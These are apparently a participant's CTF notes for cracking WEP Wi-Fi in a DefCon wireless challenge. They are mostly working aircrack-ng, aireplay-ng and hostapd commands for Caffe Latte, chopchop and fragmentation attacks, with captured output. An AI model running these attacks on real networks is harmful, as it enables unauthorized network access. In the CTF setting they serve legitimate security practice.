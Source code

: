 ## Classic WEP

Basically run airodump for 10 minutes and aircrack

```
sudo airmon-ng

sudo airmon-ng start wlan27

sudo airodump-ng  -w derp --output-format pcap --band ag wlan27mon

wget https://raw.githubusercontent.com/rfhs/wctf-files/master/wordlist/cyberpunk.words

sudo aircrack-ng -w cyberpunk.words derp0-01.cap
```

## Caffe Latte (WEP, no AP)

How to recognize?
You might find in airodump-ng that there are probes to ESSIDs that aren't found.
This signals a client-side attack


Begin the Caffe Latte Attack by starting an airodump-ng capture and writing the keystream to an output file:
It helps to know the channel, which is more of an art and needs tweaking by playing with airodump to find what the target is looking for.

```
airodump-ng -w cafefile --output-format pcap --band a -c 44 wlan29mon
```

While an airodump-ng capture is running, perform the Caffe-Latte Attack:

to specify the channel, the interface needs to be brought up in airodump with channel specified.

```
aireplay-ng --caffe-latte -h 02:00:00:00:1E:00 -b 00:13:10:30:24:9C -D wlan30mon

    -h is our card MAC address
    -b is the Access Point MAC (any valid MAC should work)
    -D disables AP detection.
```

find our own mac with `iw dev`

^ This didn't work for me at DefCon 2020

According to another member used hostapd instead of aireplay

```
interface=wlan31mon
ssid=WCTF_03
channel=44
hw_mode=a
#mana_wpaout=hostapd.hccapx
wep_default_key=1
wep_key1="abcde"
wep_key_len_broadcast="5"
wep_key_len_unicast="5"
wep_rekey_period=300
auth_algs=3
```

put that into my_ha.conf

hostapd my_ha.conf starts the beacon and the original airodump will capture enough IVs for aircrack



## Client-less WEP

Attempts at "chochop/fragmentation"

```
aireplay-ng -1 0 -e WCTF_02 -a 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon

aireplay-ng -5 -b 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon

aireplay-ng -4 -b 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon

aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon

aireplay-ng -1 1000 -o 1 -q 10 -e WCTF_02 -a 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon
```

😬 The way Ted did it for RFHS_RFCTF_02:

aireplay -4 running on wlan28

sup running on 27 with a bs key

you can ignore the steps after -4 runs(edited)

i just cracked it with that small amount of data

i never got the inject to work


supplicant:
```
┌──(root💀efa43d97627c)-[~/rf]
└─# cat sups.conf 
network={
        ssid="RFHS_RFCTF_02"
        key_mgmt=NONE
        wep_key0="12345"
        wep_tx_keyidx=0
}

┌──(root💀efa43d97627c)-[~/rf]
└─# wpa_supplicant -i wlan31 -c sups.conf 
Successfully initialized wpa_supplicant
rfkill: Cannot open RFKILL control device
rfkill: Cannot get wiphy information
wlan31: SME: Trying to authenticate with 00:dc:63:ed:5d:00 (SSID='RFHS_RFCTF_02' freq=5220 MHz)
nl80211: kernel reports: key not allowed
wlan31: Trying to associate with 00:dc:63:ed:5d:00 (SSID='RFHS_RFCTF_02' freq=5220 MHz)
wlan31: Associated with 00:dc:63:ed:5d:00
wlan31: CTRL-EVENT-CONNECTED - Connection to 00:dc:63:ed:5d:00 completed [id=0 id_str=]
wlan31: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
^Cnl80211: deinit ifname=p2p-dev-wlan31 disabled_11b_rates=0
p2p-dev-wlan31: CTRL-EVENT-TERMINATING 
wlan31: CTRL-EVENT-DISCONNECTED bssid=00:dc:63:ed:5d:00 reason=3 locally_generated=1
nl80211: Failed to open /proc/sys/net/ipv4/conf/wlan31/drop_unicast_in_l2_multicast: Read-only file system
nl80211: Failed to set IPv4 unicast in multicast filter
nl80211: Failed to open /proc/sys/net/ipv4/conf/wlan31/drop_unicast_in_l2_multicast: Read-only file system
nl80211: Failed to set IPv4 unicast in multicast filter
nl80211: Failed to open /proc/sys/net/ipv4/conf/wlan31/drop_unicast_in_l2_multicast: Read-only file system
nl80211: Failed to set IPv4 unicast in multicast filter
nl80211: deinit ifname=wlan31 disabled_11b_rates=0
wlan31: CTRL-EVENT-TERMINATING 
```

Might not even need the `-4` step. It seems the supplicant forces the AP to make enough data to capture w/ airodump??
